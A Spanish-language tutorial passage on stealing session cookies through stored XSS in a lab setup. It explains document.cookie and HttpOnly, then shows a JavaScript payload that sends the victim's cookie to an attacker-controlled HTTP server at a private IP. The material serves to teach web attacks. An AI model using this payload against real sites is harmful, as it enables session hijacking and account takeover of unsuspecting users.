 
### Cookie Hijacking en XSS

En este ejemplo, al igual que en el caso del `keylogging`, utilizaremos el repositorio de Github del apartado de [Stored XSS](#stored-xss) para poder explicar
y comprender como funcionan este tipos de ataque.

Para ver la cookie de sesión, habría que acceder a ella utilizando la propiedad `cookie` del objeto `document` tal que así: `document.cookie`.

![img](/assets/img/xss/xssc_1.png)

En este caso no se nos muestra debido a que el `HttpOnly` está habilitado, un atributo del navegador creado para impedir que por el lado del cliente se accedan a las cookies.

![img](/assets/img/xss/xssc_2.png)

Para este ejemplo deshabilitaremos el atributo `HttpOnly` para poder robar la cookie de sesión.

![img](/assets/img/xss/xssc_3.png)

Crearemos un archivo en el cual, el usuario tras acceder, enviará por el método GET su `session cookie` a nuestro servidor HTTP.

```javascript
var req = new XMLHttpRequest();

req.open("GET","http://192.168.6.5:8000/?cookie=" + document.cookie);

req.send()
```

En la publicación que creamos, se realizará una petición al archivo JavaScript de nuestro servidor HTTP.
